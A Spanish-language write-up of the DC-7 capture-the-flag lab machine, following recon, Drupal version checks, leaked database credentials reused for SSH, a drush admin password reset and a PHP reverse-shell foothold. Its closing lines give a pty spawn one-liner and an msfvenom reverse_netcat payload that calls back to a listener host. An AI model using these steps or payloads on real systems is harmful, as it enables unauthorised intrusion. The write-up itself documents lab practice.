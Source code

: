 Se realiza un ARP-SCAN para determinar la maquina victima.
```
$ sudo arp-scan 12.0.2.1/24
-> 12.0.2.7        08:00:27:de:86:25
```

Se realiza un escaneo nmap de los servicios y puertos de la maquina.
```
$ sudo nmap 12.0.2.7 -sS -Pn -sV -sC -O -vvv -oN nmap.txt -T5
-> 22, 80
```

**SSH**: OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
**HTTP**: Apache httpd 2.4.25 ((Debian))

### Primero revisamos la Web.
- Primero en la web analizamos las tecnologías que la forman.
	- **Drupal** : Un CMS, este posiblemente es la version 8
	- **PHP**: Lenguaje de programación back-end
	- **Apache HTTP Server**: Servidor donde se lanza el html (2.4.25)
	- **Debian**: OS
- Buscamos posibles vulnerabilidades en sus tecnológicas por su version.
	- **Apache 2.4.25**: Se encontro un crash server que puede detener el servicio mediante la vulnerabilidad CVE-2017-7659
	- **Drupal 8**: Se encontro una vulnerabilidad que puede ejecutar codigo aribitrario para las versiones de drupal 8.0 hasta 8.3.8 mediante la vulnerabilidad CVE-2018-7600


Hacemos Fuzzing en la Web para encontrar posibles sub directorios vulnerables
#### dirsearch
```
Target: http://12.0.2.7/

[12:18:54] Starting: 
[12:20:02] 200 -   95B  - /INSTALL.txt                                      
[12:20:03] 200 -   18KB - /LICENSE.txt                                           
[12:20:18] 200 -    6KB - /README.txt                                            
[12:20:21] 302 -  352B  - /Search  ->  http://12.0.2.7/search/node               
CTRL+C detected: Pausing threads, please wait...                                 
[q]uit / [c]ontinue: c                                                           
[12:25:53] 301 -  303B  - /core  ->  http://12.0.2.7/core/                       
[12:27:24] 301 -  328B  - /forum/install/install.php  ->  http://12.0.2.7/forum/install/core/install.php                                                          
[12:28:14] 200 -    9KB - /index.php                                             
[12:28:20] 301 -  314B  - /install.php  ->  http://12.0.2.7/core/install.php     
[12:29:43] 301 -  306B  - /modules  ->  http://12.0.2.7/modules/                 
[12:30:14] 200 -    8KB - /node                                                  
[12:31:51] 301 -  307B  - /profiles  ->  http://12.0.2.7/profiles/               
[12:32:10] 200 -    2KB - /robots.txt                                            
[12:32:20] 302 -  352B  - /search  ->  http://12.0.2.7/search/node               
[12:32:51] 301 -  304B  - /sites  ->  http://12.0.2.7/sites/                
[12:32:52] 200 -  515B  - /sites/README.txt                                 
[12:33:54] 301 -  305B  - /themes  ->  http://12.0.2.7/themes/              
[12:34:34] 302 -  348B  - /user  ->  http://12.0.2.7/user/login             
[12:34:36] 302 -  348B  - /user/  ->  http://12.0.2.7/user/login            
[12:34:37] 200 -   10KB - /user/login/                                      
[12:35:03] 200 -    4KB - /web.config                                       
[12:35:14] 301 -  323B  - /wp-admin/install.php  ->  http://12.0.2.7/wp-admin/core/install.php
                                                                            
Task Completed 
```

#### dirb
```
---- Scanning URL: http://12.0.2.7/ ----
+ http://12.0.2.7/admin (CODE:403|SIZE:8798)                                    
+ http://12.0.2.7/Admin (CODE:403|SIZE:8798)                                    
+ http://12.0.2.7/ADMIN (CODE:403|SIZE:8798)                                    
+ http://12.0.2.7/batch (CODE:403|SIZE:8798)                                    
==> DIRECTORY: http://12.0.2.7/core/                                            
+ http://12.0.2.7/index.php (CODE:200|SIZE:8731)                                
+ http://12.0.2.7/install.mysql (CODE:403|SIZE:296)                             
+ http://12.0.2.7/install.pgsql (CODE:403|SIZE:296)                             
==> DIRECTORY: http://12.0.2.7/modules/                                         
+ http://12.0.2.7/node (CODE:200|SIZE:8689)                                     
==> DIRECTORY: http://12.0.2.7/profiles/                                        
+ http://12.0.2.7/robots.txt (CODE:200|SIZE:1594)                               
+ http://12.0.2.7/Root (CODE:403|SIZE:287)                                      
+ http://12.0.2.7/search (CODE:302|SIZE:352)                                    
+ http://12.0.2.7/Search (CODE:302|SIZE:352)                                    
+ http://12.0.2.7/server-status (CODE:403|SIZE:296)                             
==> DIRECTORY: http://12.0.2.7/sites/                                           
==> DIRECTORY: http://12.0.2.7/themes/                                          
+ http://12.0.2.7/user (CODE:302|SIZE:348)                                      
+ http://12.0.2.7/vendor (CODE:403|SIZE:289)                                    
+ http://12.0.2.7/web.config (CODE:200|SIZE:4555)
```

```
---- Entering directory: http://12.0.2.7/core/ ----
==> DIRECTORY: http://12.0.2.7/core/assets/                                     
==> DIRECTORY: http://12.0.2.7/core/config/                                     
==> DIRECTORY: http://12.0.2.7/core/includes/                                   
+ http://12.0.2.7/core/install.mysql (CODE:403|SIZE:301)                        
+ http://12.0.2.7/core/install.pgsql (CODE:403|SIZE:301)                        
==> DIRECTORY: http://12.0.2.7/core/lib/                                        
==> DIRECTORY: http://12.0.2.7/core/misc/                                       
==> DIRECTORY: http://12.0.2.7/core/modules/                                    
==> DIRECTORY: http://12.0.2.7/core/profiles/                                   
+ http://12.0.2.7/core/Root (CODE:403|SIZE:292)                                 
==> DIRECTORY: http://12.0.2.7/core/scripts/                                    
==> DIRECTORY: http://12.0.2.7/core/tests/                                      
==> DIRECTORY: http://12.0.2.7/core/themes/
```

**Directorios de interés**
-> /robots.txt
-> /node/
-> /web.config 

**robots.txt**: no hay mucha información relevante sino mas urls filtradas en la pagina.
**node**: puede ser algo mas de interés mas adelante ya que tiene un fragmento rss.xss
**web.config**: muestra el como esta configurado el web server.

#### web.config
Algo interesante es la denegación de archivos que prohíbe el envió de ciertos archivos.
**Denegación de ciertos tipos de archivos.**
```
<rule name="Protect files and directories from prying eyes" stopProcessing="true">
   <match url="\.(engine|inc|install|module|profile|po|sh|.*sql|theme|twig|tpl(\.php)?|xtmpl|yml|svn-base)$|^(code-style\.pl|Entries.*|Repository|Root|Tag|Template|all-wcprops|entries|format|composer\.(json|lock))$"/>
   <action type="CustomResponse" statusCode="403" subStatusCode="0" statusReason="Forbidden" statusDescription="Access is forbidden."/>
</rule>

```

**1er intento de explotación**
1) Intento con exploit CVE-2018-7600, al parecer no es compatible :/

Analizando un poco mas la web me percate que existe un perfil en GitHub que relaciona la pagina vista.

![[Pasted image 20240111151614.png]]

Este perfil nos llevara a un GitHub que calza perfectamente con la pagina web, en ella encontré un file con credenciales.

**config.php**
```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

Trate de hacer un login con estas credenciales pero no hay éxito.
![[Pasted image 20240111152329.png]]

Luego trate de hacer una conexión **SSH** con estas credenciales y hubo éxito.
dentro podemos encontrar un folder con **backups** y una cadena de mensajes.

en los mensajes destacamos esto: 
`Subject: Cron <root@dc-7> /opt/scripts/backups.sh`

si hacemos **cat** a este script podemos ver que es un bash que ejecuta código sobre Drupal.
```
dc7user@dc-7:~$ cat /opt/scripts/backups.sh

#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz

```

**Explicación del script paso a paso**
1) **rm /home/dc7user/backups/* :** Elimina todos los archivos en el directorio /home/dc7user/backups/ antes de realizar la copia de seguridad para asegurarse de que no haya archivos antiguos en el directorio.
2) **cd /var/www/html/:** Cambia al directorio /var/www/html/. Este es el directorio donde se encuentra la instalación del sitio web que se va a respaldar.
3) **drush sql-dump --result-file=/home/dc7user/backups/website.sql**: Utiliza Drush (una interfaz de línea de comandos para Drupal) para realizar un volcado de la base de datos del sitio web y guarda el resultado en el archivo /home/dc7user/backups/website.sql.
4) **cd ..:** Cambia al directorio padre del directorio actual.
5) **tar -czf /home/dc7user/backups/website.tar.gz html/:** Crea un archivo comprimido (en formato tar y gzip) llamado website.tar.gz que contiene todos los archivos del directorio html/ (donde se encuentra la instalación del sitio web).
6) **gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql:** Utiliza GPG (GNU Privacy Guard) para cifrar el archivo website.sql con una contraseña proporcionada ("PickYourOwnPassword").
7) **gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz:** Utiliza GPG para cifrar el archivo website.tar.gz con la misma contraseña proporcionada.
8) **chown dc7user:dc7user /home/dc7user/backups/* :** Cambia el propietario y el grupo de todos los archivos en /home/dc7user/backups/ al usuario y grupo "dc7user".
9) r**m /home/dc7user/backups/website.sql:** Elimina el archivo original no cifrado website.sql después de que ha sido cifrado y se ha creado la copia cifrada.
10) **rm /home/dc7user/backups/website.tar.gz**: Elimina el archivo original no cifrado website.tar.gz después de que ha sido cifrado y se ha creado la copia cifrada.

#### Drush
averiguando un poco mas de **drush** encontré una guía básica, pero me llamo la atención que esta herramienta.
https://www.digitalocean.com/community/tutorials/a-beginner-s-guide-to-drush-the-drupal-shell

un simple comando para resetear la password de algún usuario.
```
drush user-password admin --password="new_pass"
```

success en cambiar la password
![[Pasted image 20240111220934.png]]

en la pagina debemos descargar un plugin para inyectar código malicioso y poder tomar acceso a la maquina.
![[Pasted image 20240111222715.png]]
Instalamos este package.
![[Pasted image 20240111223318.png]]
una vez instalado crearemos una nueva page para ejecutar el código php malicioso usando
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Obtenido.
![[Pasted image 20240113145708.png]]

spawneo un bash con python
```
python -c 'import pty; pty.spawn("/bin/bash")' 
```

Uso msfvenom para spawnear una reverse shell con ncat
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.0.2.15 lport=3333 R
```
